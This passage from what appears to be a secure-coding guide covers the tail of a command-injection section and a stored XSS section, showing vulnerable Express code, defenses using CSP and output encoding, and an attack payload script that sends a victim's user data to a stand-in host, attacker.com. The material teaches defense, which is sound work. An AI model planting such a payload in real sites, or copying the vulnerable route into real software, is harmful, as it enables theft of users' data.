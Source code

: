 #### How It Works
1. Input contains command separators
2. Shell interprets as multiple commands
3. Executes unauthorized commands
4. Potential system compromise

#### Defense
```python
import shlex
import subprocess

def safe_command(command, args):
    # Whitelist allowed commands
    if command not in ['ping', 'nslookup']:
        raise ValueError('Command not allowed')
        
    # Use array form, never shell
    subprocess.run([command, args], shell=False)
```

## Cross-Site Scripting (XSS)

### Stored XSS
```javascript
// Vulnerable code
app.get('/comments', (req, res) => {
    db.query('SELECT * FROM comments', (err, results) => {
        res.send(results.map(r => r.comment).join('<br>'));
    });
});

// Attack payload
<script>
    fetch('/api/user-data')
        .then(r => r.json())
        .then(data => fetch('https://attacker.com/steal?d=' + btoa(JSON.stringify(data))));
</script>
```

#### How It Works
1. Malicious script stored in database
2. Served to other users
3. Executes in victim's browser
4. Steals sensitive data

#### Defense
```javascript
// Content Security Policy
app.use((req, res, next) => {
    res.setHeader(
        'Content-Security-Policy',
        "default-src 'self'; script-src 'self'; object-src 'none';"
    );
    next();
});

// Output encoding
const encode = require('he');
app.get('/comments', (req, res) => {
    db.query('SELECT * FROM comments', (err, results) => {
        res.send(results.map(r => encode.encode(r.comment)).join('<br>'));
    });
});
```